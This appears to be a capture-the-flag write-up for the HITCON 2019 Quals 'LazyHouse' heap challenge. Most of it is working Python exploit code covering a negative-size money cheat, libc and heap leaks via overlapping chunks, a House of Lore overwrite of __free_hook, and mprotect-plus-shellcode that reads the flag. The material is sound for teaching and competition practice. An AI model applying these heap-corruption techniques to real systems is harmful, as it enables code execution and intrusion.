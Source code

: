 # HITCON 2019 Quals LazyHouse Writeup

## Description

My teammate, Lays, wants a house. Can you buy one for him?
flag: `/home/lazyhouse/flag`

`nc 3.115.121.123 5731`

## Analysis

The problem is just a simple **menu heap challenge**, with some **seccomp rules**. (like `execve` being blocked) In this challenge, we can allocate, free, print chunks, as well as **two chances of modification + 32 byte overflow, and 1 malloc chance**.

The allocation of chunk needs size and money, where size is bigger than `0x7f`, and money is bigger than `218*size`. The allocation uses calloc to get chunk, so it doesn't use tcache in allocation. Moreover, the number of entries in chunk list is 8, so we can get 8 different chunks in maximum.

Freeing chunks refunds money of `size*64`, and it deletes chunk from the bss list, so it's impossible to free same chunk multiple times.

We can print chunks with `write` function if the chunk is in the house list. Also, we have 2 chances to upgrade house, which allows us to modify content of chunk + 32 bytes of heap overflow. We can also allocate chunk with size `0x220`, with malloc once.

## Bug

There is a bug in buying house, which allows us to **buy houses with negative size**. In buying house, it compares unsigned size with signed `0x7f`, so we can give size with negative value. However, we need to ensure that `218*size` is lesser than our money, since it performs unsigned comparison.

Also, there is an intended bug in upgrading house, which allows us to do **32 byte heap overflow** twice.

## Scenario

### Money cheat

Because unsigned size value we give in buying house is compared with signed `0x7f`, we can give negative size to buy house, and sell it to increase our money. So we can make our money super large by buying house with proper size, and selling it.

```python
# money cheat
polluted_size = -(((219 << 64) / 218) % (1 << 64))
r.sendlineafter("choice: ", "1")
r.sendlineafter("Index:", "0")
r.sendlineafter("Size:", str(polluted_size))
r.interactive()
sell_house(0)
```

### Libc and tcache struct address leak by chunk overlapping 2

By using chunk overlapping 2 ([Link](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/overlapping_chunks_2.c)), we can leak libc and heap address. Two chunks are overlapped for later processes.

```python
# filling tcaches
for i in xrange(7):
  buy_house(0, 0x88, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x98, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x1f8, "Z")
  sell_house(0)

buy_house(0, 0x88, "A")
buy_house(1, 0x98, "B")
buy_house(2, 0x418, "C") # chunk to be overlapped
buy_house(3, 0x418, "D") # chunk to be overlapped
buy_house(4, 0x98, "E")
buy_house(5, 0x88, "F") # chunk to block coalescing

sell_house(4)
upgrade_house(0, "G"*0x88+p64(0xa0+0x420+0x420+1))
sell_house(1)

# leak libc address
buy_house(1, 0x98, "H") # size is 0x98 to write arena address in 2

libc_leak = u64(show_house(2)[0:8])
log.success("libc leak addr : "+hex(libc_leak))

libc_base = libc_leak - 0x7fb657832ca0 + 0x7fb65764e000
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

# cleanup
sell_house(5)
sell_house(1)
sell_house(0)

# leak heap address
payload = "K"*(0x90+0xa0-8)
payload += p64(0x31) # fake size 0x31 (2nd entry of tcache entries)
payload += "L"*0x418
payload += p64(0x21) # fake size 0x21 (1st entry of tcache entries)
payload += "L"*0x18
payload += p64(0x401)
buy_house(4, 0x90+0xa0+0x420+0x420-8, payload)

# free two chunks to put them in tcache struct
sell_house(2) # to 0x31 entry
sell_house(3) # to 0x21 entry

# leak tcache struct addr (actually tcache key in 2.29)
heap_leak = u64(show_house(4)[0x138:0x140])
log.success("heap leak addr : "+hex(heap_leak))
chunk_base = heap_leak-0x10
```

### House of Lore to overwrite free hook

In tcache struct, tcache count list and tcache entries are adjacent. Because of that, we can create fake chunk structure in tcache struct, by putting 1st and 2nd tcache entry by freeing chunks size `0x20` and `0x30`, and fake size (in this case, `0x301`)by freeing chunks size `0x3a0` and `0x3b0`. After house of lore, tcache entries will be overwritten, so that we can do arbitrary write by buying super house.

```python
# house of lore
buy_house(4, 0x90+0xa0+0x420-8+0x10, "M")
buy_house(5, 0x1f8, "N")
buy_house(6, 0x1f8, "O")

sell_house(5)
buy_house(5, 0x4b8, "P")

payload = "Q"*(0x90+0xa0-8+0x10)
payload += p64(0x421) # restore chunk size
payload += p64(chunk_base+0x40) # fake chunk 2
payload += "R"*0x410
payload += p64(0x201) # for checking (looks like size)
payload += p64(libc_leak-96+592) # fake chunk 1
payload += p64(chunk_base+0x40) # fake chunk 1
upgrade_house(4, payload)

buy_house(1, 0x1f8, "S")

# pre process for super size house
buy_house(0, 0x217, "PLUS")
sell_house(0)

# fake size in tcache struct (0x301)
buy_house(0, 0x398, "Z")
sell_house(0)
for i in xrange(3):
  buy_house(0, 0x3a8, "Z")
  sell_house(0)

# overwrite tcache entries
target = free_hook
log.info ("target: " + hex(target))
payload = ""
payload += "/bin/sh\0"+p64(target)*17*2 
buy_house(0, 0x1f8, payload)
```

### call mprotect and run shellcode

Overwrite `__free_hook` to call mprotect, then run shellcode.

```python
xchg_gadget = libc_base + 0x0000000000158023
call_mprotect = libc_base + 0x0000000000117590
how_gadget = libc_base + 0x00000000001080fc
push_rdi_ret = libc_base + 0x000000000004c745
log.info ("b * {}".format (hex(how_gadget)))
ss = p64(how_gadget)
buy_super_house(ss)

pay = p64(call_mprotect) + p64(heap_leak + 0x4ff0) 
context.arch = 'amd64'
context.os = 'linux'

sc = asm(shellcraft.amd64.open ("/home/lazyhouse/flag", 0))
sc += asm(shellcraft.amd64.read ('rax', 'rsp', 100))
sc += asm(shellcraft.amd64.write (1, 'rsp', 100))
pay2 = p64(heap_leak+0x4220) + "\x90" * 0x20 + sc
print len (pay2)
buy_house (2, 0x850, "ASDF")
buy_house (7, 0x200, pay)
buy_house (3, 0x200, pay2)

r.sendafter("choice: ", "3".ljust(0x20, "b"))
r.sendafter("Index:", "7".ljust(32,"a"))
#sell_house(0)
sell_house (3)
r.interactive()
```

### Full code

[Link](https://github.com/candymate/pwn/blob/master/HITCON%202019%20Quals/solver.py)



